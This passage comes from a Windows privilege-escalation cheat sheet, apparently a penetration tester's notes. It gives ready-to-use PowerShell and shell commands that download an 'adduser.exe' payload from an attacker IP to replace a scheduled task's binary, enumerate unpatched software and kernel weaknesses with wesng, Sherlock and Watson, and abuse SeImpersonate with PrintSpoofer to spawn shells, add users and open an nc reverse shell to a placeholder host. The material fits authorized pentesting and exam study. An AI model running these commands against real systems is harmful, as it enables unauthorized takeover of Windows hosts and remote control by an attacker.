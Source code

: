 Replace the executable that is called by the scheduled task:
```powershell
iwr -Uri http://<ip>/adduser.exe -Outfile BackendCacheCleanup.exe
move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak
move .\BackendCacheCleanup.exe .\Pictures\
```


### Use exploits

Look for outdated software running as an elevated user:
```powershell
# 32-bit
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

# 64-bit
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

Kernel exploits
```bash
systeminfo

# Look for missing patches
wmic qfe list
Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }

# Get windows build number
[environment]::OSVersion.Version
```
>[!info]
>Use buildnumber here: [src](https://en.wikipedia.org/wiki/List_of_Microsoft_Windows_versions)

Wesng usage:
- https://github.com/bitsadmin/wesng
```bash
# On Windows 
systeminfo > systeminfo.txt

# On Kali
python3 wes.py systeminfo.txt
```
>[!info]
>Try Sherlock & Watson too
>- [Sherlock](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1)
>- [Watson](https://github.com/NyaMeeEain/Privilege-Escalation-Windows)


### Special privileges

#### SeImpersonate

PrintSpoofer:
- https://github.com/itm4n/PrintSpoofer/releases
```bash
# Spawn shell
.\PrintSpoofer64.exe -i -c powershell.exe

# Execute reverse shell
.\PrintSpoofer64.exe -c "shell.exe"

# Add user
.\PrintSpoofer64.exe -c "adduser.exe"

# NC reverse shell
.\PrintSpoofer64.exe -c "nc.exe <IP> <port> -e cmd.exe"
```